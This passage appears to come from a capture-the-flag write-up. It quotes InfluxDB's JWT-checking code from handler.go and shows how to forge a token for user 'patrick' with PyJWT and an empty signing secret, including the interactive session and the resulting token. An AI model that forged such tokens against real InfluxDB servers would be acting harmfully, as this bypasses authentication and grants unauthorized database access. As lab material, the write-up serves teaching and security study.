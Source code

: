 

    claims, ok := token.Claims.(jwt.MapClaims)



Later, in lines
[1611-1625](https://github.com/influxdata/influxdb/blob/e2af85d6503ecaaa4dbdbdd9ddad740741dae582/services/httpd/handler.go#L1611-L1625),
it uses both `claims["exp"]` and `claims["username"]`:



    // Make sure an expiration was set on the token.
    if exp, ok := claims["exp"].(float64); !ok || exp <= 0.0 {
        h.httpError(w, "token expiration required", http.StatusUnauthorized)
        return
    }

    // Get the username from the token.
    username, ok := claims["username"].(string)
    if !ok {
        h.httpError(w, "username in token must be a string", http.StatusUnauthorized)
        return
    } else if username == "" {
        h.httpError(w, "token must contain a username", http.StatusUnauthorized)
        return
    }



I don't see any other fields references, so I'll start by making a JWT
with those two.

#### Craft JWT

I'll make a token in with
[PyJWT](https://pyjwt.readthedocs.io/en/stable/):



    oxdf@hacky$ python3
    Python 3.8.10 (default, Nov 26 2021, 20:14:08) 
    [GCC 9.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import jwt
    >>> import time
    >>> int(time.time())
    1647008155
    >>> jwt.encode({"exp": time.time()+10000, "username": "patrick"}, "", algorithm="HS256")
    b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDcwMTgyMDIuMDU4MTAzMywidXNlcm5hbWUiOiJwYXRyaWNrIn0.xRh2gVo-K2WMHFTrYqLZgPDkEa0RHL6LrRKsHg5icFA'



I'm passing the empty string for the secret.

I can also do the same thing in [jwt.io](https://jwt.io/):
